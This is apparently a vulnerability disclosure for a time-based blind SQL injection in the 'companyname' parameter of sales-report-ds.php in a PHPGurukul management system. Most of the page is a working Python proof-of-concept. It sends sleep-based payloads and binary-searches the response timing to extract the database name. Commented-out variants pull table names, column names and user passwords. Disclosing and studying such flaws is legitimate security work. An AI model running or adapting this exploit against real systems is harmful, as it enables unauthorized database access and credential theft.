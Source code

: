 vendor：https://phpgurukul.com/

download link：https://phpgurukul.com/?smd_process_download=1&download_id=10924

Vulnerability trigger parameter: $cname

The process of vulnerability discovery is as follows：

![Image text](https://www.caicaizi.top/usr/uploads/2022/09/3283806738.png)

![Image text](https://www.caicaizi.top/usr/uploads/2022/09/3885801938.png)

You can see in the source code that the '$cname' in the sales-report-ds.php file is likely to be injected. Then you can judge from the following if else statement that this variable can splice malicious code, and you can perform blind injection.

POC:
```python
import requests
import time
 
url = "http://localhost/DFScms/dfsms/sales-report-ds.php"
flag = ''
 
 
def payload(i, j):
    startTime=time.time()
    # 数据库名字
    sql = "companyname=-1'and if(ascii(substr(database(),%d,1))>%d,sleep(3),-1)and'1=1&submit="%(i,j)
    # 表名
    #sql = "id = if(ascii(substr((select group_concat(table_name) from information_schema.columns where table_schema=database()),%d,1))>%d,sleep(5),-1)%%23"%(i,j)
    # 列名
    #sql = "id = if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database()),%d,1))>%d,sleep(5),-1)%%23"%(i,j)
    # 查询flag
    #sql = "id = if(ascii(substr((select password from users),%d,1))>%d,sleep(5),-1)%%23"%(i,j)
 
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": "PHPSESSID=iv4ujtg89cbg68hdmaqb4bbkl7"
    }
 
    r = requests.post(url=url, headers=headers, data=sql, timeout=15, verify=False)
    # print (r.url)
    if time.time()-startTime>2:
        res = 1
    else:
        res = 0
    return res
 
 
def exp():
    global flag
    for i in range(1, 200):
        low = 31
        high = 127
        while low <= high:
            mid = (low + high) // 2
            res = payload(i, mid)
            if res:
                low = mid + 1
            else:
                high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
            break
        # print (f)
        flag += chr(f)
        print(flag)
 
 
exp()


```
The database name was exploded

![Image text](https://www.caicaizi.top/usr/uploads/2022/09/2826675667.png)

